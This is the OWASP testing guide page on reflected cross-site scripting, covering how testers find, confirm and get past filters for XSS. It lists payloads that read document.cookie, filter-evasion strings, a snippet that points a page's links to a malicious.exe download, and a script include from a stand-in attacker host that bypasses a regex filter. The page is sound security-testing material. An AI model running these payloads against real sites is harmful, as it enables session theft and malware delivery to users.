



Reflected Cross Site Scripting
| ID |
|---|
| WSTG-INJT-01 |
Summary
Reflected Cross-site Scripting (XSS) occurs when an attacker injects browser executable code within a single HTTP response. The injected attack is not stored within the application itself; it is non-persistent and only impacts users who open a maliciously crafted link or third-party web page. The attack string is included as part of the crafted URI or HTTP parameters, improperly processed by the application, and returned to the victim.
Reflected XSS are the most frequent type of XSS attacks found in the wild. Reflected XSS attacks are also known as non-persistent XSS attacks and, since the attack payload is delivered and executed via a single request and response, they are also referred to as first-order or type 1 XSS.
When a web application is vulnerable to this type of attack, it will pass unvalidated input sent through requests back to the client. The common modus operandi of the attack includes a design step, in which the attacker creates and tests an offending URI, a social engineering step, in which she convinces her victims to load this URI on their browsers, and the eventual execution of the offending code using the victim’s browser.
Commonly the attacker’s code is written in the JavaScript language. Attackers typically leverage these vulnerabilities to install key loggers, steal victim cookies, perform clipboard theft, and change the content of the page (e.g., download links).
One of the primary difficulties in preventing XSS vulnerabilities is proper character encoding. In some cases, the web server or the web application could not be filtering some encodings of characters, so, for example, the web application might filter out <script>, but might not filter %3cscript%3e which simply includes another encoding of tags.
Test Objectives
- Identify variables that are reflected in responses.
- Assess the input they accept and the encoding that gets applied on return (if any).
How to Test
Black-Box Testing
A black-box test will include at least three phases:
Detect Input Vectors
Detect input vectors. For each web page, the tester must determine all the web application’s user-defined variables and how to input them. This includes hidden or non-obvious inputs such as HTTP parameters, POST data, hidden form field values, and predefined radio or selection values. Typically in-browser HTML editors or web proxies are used to view these hidden variables. See the example below.
Analyze Input Vectors
Analyze each input vector to detect potential vulnerabilities. To detect an XSS vulnerability, the tester will typically use specially crafted input data with each input vector. Such input data is typically harmless, but trigger responses from the web browser that manifests the vulnerability. Testing data can be generated by using a web application fuzzer, an automated predefined list of known attack strings, or manually. Some example of such input data are the following:
<script>alert(123)</script>"><script>alert(document.cookie)</script>
For a comprehensive list of potential test strings see the XSS Filter Evasion Cheat Sheet.
Check Impact
For each test input attempted in the previous phase, the tester will analyze the result and determine if it represents a vulnerability that has a realistic impact on the web application’s security. This requires examining the resulting web page HTML and searching for the test input. Once found, the tester identifies any special characters that were not properly encoded, replaced, or filtered out. The set of vulnerable unfiltered special characters will depend on the context of that section of HTML.
Ideally all HTML special characters will be replaced with HTML entities. The key HTML entities to identify are:
>(greater than)<(less than)&(ampersand)'(apostrophe or single quote)"(double quote)
However, a full list of entities is defined by the HTML and XML specifications. Wikipedia has a complete reference.
Within the context of an HTML action or JavaScript code, a different set of special characters will need to be escaped, encoded, replaced, or filtered out. These characters include:
\n(new line)\r(carriage return)'(apostrophe or single quote)"(double quote)\(backslash)\uXXXX(unicode values)
For a more complete reference, see the Mozilla JavaScript guide.
Example 1
For example, consider a site that has a welcome notice Welcome %username% and a download link.

Figure 11.1-1: XSS Example 1
The tester must suspect that every data entry point can result in an XSS attack. To analyze it, the tester will play with the user variable and try to trigger the vulnerability.
Let’s try to click on the following link and see what happens:
https://example.com/index.php?user=<script>alert(123)</script>
If no sanitization is applied this will result in the following popup:

Figure 11.1-2: XSS Example 1
This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody’s browser if the target clicks on the tester’s link.
Example 2
Let’s try other piece of code (link):
https://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "https://badexample.com/malicious.exe";}</script>
This produces the following behavior:

Figure 11.1-3: XSS Example 2
This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site they control.
Bypass XSS Filters
Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.
Thus, the majority of XSS prevention must depend on the web application’s sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A deny list may not include all possible attack strings, an allow list may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.
The XSS Filter Evasion Cheat Sheet documents common filter evasion tests.
Example 3: Tag Attribute Value
Since these filters are based on a deny list, they could not block every type of expressions. In fact, there are cases in which an XSS exploit can be carried out without the use of <script> tags and even without the use of characters such as < and > that are commonly filtered.
For example, the web application could use the user input value to fill an attribute, as shown in the following code:
<input type="text" name="state" value="INPUT_FROM_USER">
Then an attacker could submit the following code:
" onfocus="alert(document.cookie)
Example 4: JavaScript Context
The input can also be reflected inside a script block, for example in a JavaScript string:
<script>var q = 'INPUT_FROM_USER';</script>
Filtering < and > doesn’t help here, as most of the payloads below use neither. HTML entity encoding isn’t enough either, because the browser doesn’t decode entities inside a script block: an encoded quote can’t end the string, but payloads that need no HTML special characters still run. Find out how the value is quoted and which characters the application escapes, then try the following:
-
If quotes aren’t escaped, end the string and comment out the rest of the line:
';alert(document.cookie)// -
If quotes are escaped with a backslash but backslashes aren’t, add a backslash of your own:
\';alert(document.cookie)//The application turns this into
\\';alert(document.cookie)//, where\\is a literal backslash and the quote ends the string. -
If quotes and backslashes are both escaped but
<and>aren’t, close the script block:</script><script>alert(document.cookie)</script>The HTML parser ends the script block at the first
</script>, before the JavaScript is parsed, so the unterminated string doesn’t matter and the new script block runs. -
If the value is inside a template literal, such as
var q = `INPUT_FROM_USER`;, no quote is needed:${alert(document.cookie)} -
If the value isn’t quoted at all, such as
var id = INPUT_FROM_USER;, any expression runs, for examplealert(document.cookie).
Inline event handlers such as onclick are different: they are HTML attributes, so the browser decodes HTML entities before it runs the JavaScript, and an encoded quote such as ' still ends the string.
Example 5: Different Syntax or Encoding
In some cases it is possible that signature-based filters can be simply defeated by obfuscating the attack. Typically you can do this through the insertion of unexpected variations in the syntax or in the encoding. These variations are tolerated by browsers as valid HTML when the code is returned, and yet they could also be accepted by the filter.
Following some examples:
"><script >alert(document.cookie)</script >"><ScRiPt>alert(document.cookie)</ScRiPt>"%3cscript%3ealert(document.cookie)%3c/script%3e
Example 6: Bypassing Non-Recursive Filtering
Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:
<scr<script>ipt>alert(document.cookie)</script>
Example 7: Including External Script
Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:
<?
$re = "/<script[^>]+src/i";
if (preg_match($re, $_GET['var']))
{
echo "Filtered";
return;
}
echo "Welcome ".$_GET['var']." !";
?>
Decoupling the above regular expression:
- Check for a
<script - Check for a “ “ (whitespace)
- Any character but the character
>for one or more occurrences - Check for a
src
This is useful for filtering expressions like <script src="https://attacker/xss.js"></script> which is a common attack. But, in this case, it is possible to bypass the sanitization by using the > character in an attribute between script and src, like this:
https://example/?var=<SCRIPT%20a=">"%20SRC="https://attacker/xss.js"></SCRIPT>
This will exploit the reflected cross site scripting vulnerability shown before, executing the JavaScript code stored on the attacker’s web server as if it was originating from the victim site, https://example/.
Example 8: HTTP Parameter Pollution (HPP)
Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the HTTP Parameter pollution for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms. Regular attack:
https://example/page.php?param=<script>[...]</script>
Attack using HPP:
https://example/page.php?param=<script¶m=>[...]</¶m=script>
See the XSS Filter Evasion Cheat Sheet for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors’ browsers.
Gray-Box Testing
Gray-box testing is similar to black-box testing. In gray-box testing, the pentester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pentester.
If source code is available (white-box testing), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.
Tools
- Hackvertor is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- BeEF is the browser exploitation framework. A professional tool to demonstrate the real-time impact of browser vulnerabilities.
- ratproxy is a semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- Zed Attack Proxy (ZAP) is an interactive HTTP/S proxy server for attacking and testing web applications with a built-in scanner.
References
OWASP Resources
Books
- Joel Scambray, Mike Shema, Caleb Sima - “Hacking Exposed Web Applications”, Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - “The Web Application’s Handbook - Discovering and Exploiting Security Flaws”, 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert “RSnake” Hansen, Petko “pdp” D. Petkov, Anton Rager, Seth Fogie - “Cross Site Scripting Attacks: XSS Exploits and Defense”, 2007, Syngress, ISBN-10: 1-59749-154-3